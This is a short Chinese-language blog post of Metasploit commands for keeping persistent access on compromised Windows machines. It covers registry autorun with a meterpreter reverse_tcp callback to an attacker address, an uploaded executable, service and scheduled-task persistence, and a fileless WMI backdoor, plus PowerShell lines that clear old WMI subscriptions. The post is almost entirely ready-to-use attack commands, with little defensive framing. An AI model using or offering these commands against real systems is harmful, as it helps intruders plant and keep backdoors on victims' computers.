 ```yaml
---
title: "Metasploit 常用维权方式"
date: 2019-07-22T00:00:00+08:00
draft: false
author: "X1r0z"

tags: ["metasploit",'persistence']
categories: ["内网渗透"]

hiddenFromHomePage: false
hiddenFromSearch: false
twemoji: false
lightgallery: true
ruby: true
fraction: true
fontawesome: true
linkToMarkdown: true
rssFullText: false

toc:
  enable: true
  auto: true
code:
  copy: true
  maxShownLines: 50
math:
  enable: false
share:
  enable: true
comment:
  enable: true
---
```



metasploit 后渗透常用的维持权限的方式.

<!--more-->

## 注册表

上传 vbs 开机自启 (被弃用).

```
run persistence -r 192.168.1.100 -p 4444 -i 5 -P windows/x64/meterpreter/reverse_tcp -X
```

上传 exe 开机自启 (替代 vbs 方式).

```
run post/windows/manage/persistence_exe REXEPATH=/home/exp10it/msf.exe
```

添加 powershell 开机自启.

```
use exploit/windows/local/registry_persistence
```

可指定 `STARTUP`, 但注意要在会话是 Administrator 权限的时候运行, System 权限需先降权, 否则无效.

## 服务

仅支持 x86 payload, 可通过 `exploit/windows/local/payload_inject` 反弹成 64 位的会话.

```
use exploit/windows/local/persistence_service
```

## 计划任务

上传 exe 执行, 需要 system 权限.
```
run scheduleme -e /home/exp10it/msf.exe -H 12
```

中途会出现 ` Failed to create scheduled task!!`, 但实际上已经添加成功.

## WMI

通过 powershell 方式执行, 无文件后门, 支持 5 种触发方式.

```
use exploit/windows/local/wmi_persistence
```

注意切换触发方式时要先清除以前的后门.

```
Get-WMIObject -Namespace root\Subscription -Class __EventFilter -Filter "Name='Updater'" | Remove-WmiObject -Verbose
Get-WMIObject -Namespace root\Subscription -Class CommandLineEventConsumer -Filter "Name='Updater'" | Remove-WmiObject -Verbose
Get-WMIObject -Namespace root\Subscription -Class __FilterToConsumerBinding -Filter "__Path LIKE '%Updater%'" | Remove-WmiObject -Verbose
``` 